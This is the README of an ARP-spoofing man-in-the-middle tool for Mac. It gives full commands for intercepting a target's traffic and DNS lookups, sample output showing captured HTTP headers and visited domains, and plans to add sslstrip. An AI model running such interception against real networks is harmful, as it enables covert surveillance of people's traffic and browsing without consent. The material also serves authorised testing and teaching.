 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
brew install scapy
```

## Sample Commands
```
ivanvza:~/ > arpy
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...

[Info] Found the following (IP layer): 192.168.1.4 -> 216.58.223.10
GET /ajax/libs/jquery/1.7.1/jquery.min.js HTTP/1.1
Host: ajax.googleapis.com
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.152 Safari/537.36
X-Client-Data: CKW1yQEIjrbJAQimtskBCKm2yQEIxLbJAQjriMoBCLWJygEIs5TKAQ==
Referer: http://stackoverflow.com/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8,af;q=0.6

[Info] Found the following (IP layer): 216.58.223.10 -> 192.168.1.4
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Type: text/javascript; charset=UTF-8
Last-Modified: Mon, 02 Apr 2012 18:24:28 GMT
Date: Mon, 18 May 2015 17:26:10 GMT
Expires: Tue, 17 May 2016 17:26:10 GMT
Access-Control-Allow-Origin: *
Timing-Allow-Origin: *
X-Content-Type-Options: nosniff
Server: sffe
Content-Length: 33186
X-XSS-Protection: 1; mode=block
Cache-Control: public, max-age=31536000
Age: 79137
Alternate-Protocol: 80:quic,p=0

�Ľ�~�F�.�?��ʫ�!J�ҷ
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns-gource
WARNING: No route found for IPv6 destination :: (no default route?)
[INFO] For a live gource feed run this command in parallel with this one:

tail -f parsed_domain_gource | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -
```
Sample Gource footage:
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_gource.gif "Live Gource Footage"

### Contact
@viljoenivan

### To-do
* Look at adding sslstrip.
* Filter sniff to a certain domain/IP.
